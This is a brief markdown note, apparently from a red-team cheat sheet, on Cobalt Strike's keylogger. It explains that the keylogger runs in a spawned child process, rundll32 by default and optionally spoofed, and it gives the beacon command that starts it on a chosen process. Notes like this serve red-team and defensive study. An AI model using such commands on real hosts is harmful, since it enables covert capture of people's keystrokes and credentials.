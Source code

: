 # Cobalt Strike

This will spawn to a child process when using the spawnto beacon command otherwise it'll use the rundll32 as default. You can optionally spoof to another process

```
beacon> keylogger <pid> <arch>
```